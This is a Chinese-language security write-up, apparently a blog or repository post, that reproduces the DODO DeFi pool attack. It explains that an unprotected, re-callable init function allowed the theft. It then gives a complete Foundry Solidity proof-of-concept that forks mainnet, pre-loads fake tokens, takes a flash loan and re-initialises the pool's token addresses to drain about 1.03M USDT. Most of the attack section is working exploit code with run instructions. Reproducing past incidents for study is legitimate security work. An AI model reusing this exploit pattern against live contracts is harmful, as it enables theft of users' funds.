






# DODO攻击复现

## 1.参考资料：

交易hash分析：

https://phalcon.xyz/tx/eth/0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e

文章：

[DODO攻击事件分析-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/234657)

## 2.漏洞成因

这个成因比较简单，是因为init函数外部可调用，同时没有仅执行一次的限制



攻击过程：

1.攻击者获取合约里两种代币的数量，提前转入了相同数量两种的fake代币：



2.攻击者执行闪电贷，贷出池子里的代币之后，调用init函数重置了池子里边的两个token地址：



3.回到漏洞合约，这时获取到的token地址已经变成了fake token的地址，由于提前转入fake代币，且数量一致，这里的require也不会报错，攻击成功



## 3.POC合约

当前forge版本可以复现，将下列代码复制到Counter.t.sol里边即可

forge test -vvvv --fork-url [your own RPC] --fork-block-number 12000163

```solidity
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/Counter.sol";

interface IDODO {
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;

    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;

    function getVaultReserve() external view returns (uint256, uint256);
    
    function _BASE_TOKEN_() external view returns (address);
}

interface USDT{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}

interface FAKEA{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}

interface FAKEB{
    function approve(address spender, uint value) external;
    function balanceOf(address _owner) external returns (uint balance);
    function transfer(address _to, uint _value) external;
}


contract ContractTest is Test{
    function setUp() public {

    }

    event Log(uint256 _val);

    //被攻击池子与被攻击代币
    address pool = address(0x051EBD717311350f1684f89335bed4ABd083a2b6);
    address ppol2 = address(0x2BBD66fC4898242BDBD2583BBe1d76E8b8f71445);
    address tokenA = address(0xa0afAA285Ce85974c3C881256cB7F225e3A1178a);
    address tokenB = address(0xdAC17F958D2ee523a2206206994597C13D831ec7);


    address binanceA=address(0xD551234Ae421e3BCBA99A0Da6d736074f22192FF);
    address fakeA=address(0x3883f5e181fccaF8410FA61e12b59BAd963fb645);
    address fakeB=address(0xf2dF8794f8F99f1Ba4D8aDc468EbfF2e47Cd7010);
    uint256 fakeA_num;
    uint256 fakeB_num;


    FAKEA fakea = FAKEA(fakeA);
    FAKEB fakeb = FAKEB(fakeB);
    USDT usdt = USDT(tokenB);

    function testA() external  {

        (fakeA_num,fakeB_num) = IDODO(pool).getVaultReserve();

        console.log("before usdt_num:", usdt.balanceOf(address(this)));

        uint256 tokena_num = FAKEB(tokenA).balanceOf(address(pool));
        uint256 usdt_num = usdt.balanceOf(address(pool));

        vm.prank(0xD551234Ae421e3BCBA99A0Da6d736074f22192FF);
        fakea.transfer(address(pool),fakeA_num);
        vm.prank(0x368A6558255bCCaC517da5106647d8182C571b23);
        fakeb.transfer(address(pool),fakeB_num);

        bytes memory data = abi.encode(pool, tokenA, tokena_num* 9 / 10 );
        IDODO(pool).flashLoan(tokena_num * 9 / 10 , usdt_num * 9 /10 , address(this), data); 
    }

    //Note: CallBack function executed by DODOV2(DVM) flashLoan pool --DVM池回调
    function DVMFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount,bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }

    //Note: CallBack function executed by DODOV2(DPP) flashLoan pool --DPP池回调
    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }

    //Note: CallBack function executed by DODOV2(DSP) flashLoan pool --DSP池回调
    function DSPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        _flashLoanCallBack(sender,baseAmount,quoteAmount,data);
    }


    function _flashLoanCallBack(address sender, uint256, uint256, bytes calldata data) internal {
        (address flashLoanPool, address loanToken, uint256 loanAmount) = abi.decode(data, (address, address, uint256));
        
        require(sender == address(this) && msg.sender == flashLoanPool, "HANDLE_FLASH_NENIED");

        address addr1= address(0xaac153c1344cA14497A5dd22b1F70C28793625aa);
        address addr2 = address(0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01);
        IDODO(pool).init(addr1,fakeA,fakeB,3000000000000000,addr2,1,1000000000000000000,false);

        console.log("after usdt_num:", usdt.balanceOf(address(this)));
    }
}
```

## 4.复现结果

​	可以看到攻击合约的USDT余额从0变成了103W（为了确保成功，没有将USDT全部贷出来），以太坊上边的USDT代币精度是6位小数，不是18，所以这个数字是正确的，之前因为这个精度问题困扰了我一段时间。






